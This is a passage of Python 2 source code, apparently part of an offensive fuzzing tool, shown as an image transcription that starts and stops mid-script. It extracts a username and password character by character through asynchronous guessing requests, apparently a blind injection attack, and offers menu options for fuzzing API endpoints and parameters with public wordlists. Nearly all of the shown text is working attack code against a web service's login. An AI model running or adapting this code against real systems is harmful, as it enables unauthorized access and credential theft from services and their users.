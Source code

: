 ```py

    if param == "username":
        for c in range(32, 127):
            if c == 95: continue # ignore _
            guess = "".join(username) + chr(c)
            pool.apply_async(multi_request_user, [base1, guess, "username"], callback=log_user_result)
    elif param == "password":
        for c in range(32, 127):
            if c == 95: continue # ignore _
            guess = "".join(password) + chr(c)
            pool.apply_async(multi_request_user, [base2, guess, "password"], callback=log_user_result)

    pool.close()
    pool.join()

def fuzz_user():
    global username, password

    found_username = ""
    found_password = ""

    print "[+] Discovered username: "
    while True:
        orig_username = "".join(username)
        fuzz_creds("username", None)
        updated_username = "".join(username)

        if orig_username == updated_username:
            found_username = updated_username
            print found_username
            break

    print "[+] Discovered password: "
    while True:
        orig_password = "".join(password)
        fuzz_creds("password", found_username)
        updated_password = "".join(password)

        if orig_password == updated_password:
            found_password = updated_password
            print found_password
            break

def main():
    choice = input('What to fuzz?\nOptions [1] and [2] require a valid wordlist as an argument!\n\n[1] API\n[2] API Parameters\n[3] Username & Password\n')
    print ""

    if choice == 1 or choice == 2:
        if len(sys.argv) != 2:
            print "[!] API and API parameters require wordlist as argument!"
            print "Usage: {} /path/to/wordlist".format(sys.argv[0])
            sys.exit(1)

    if choice == 1:
        fuzz_api(sys.argv[1])      # https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/api/objects.txt
    elif choice == 2:
        fuzz_param(sys.argv[1])     # https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt
    elif choice == 3:
```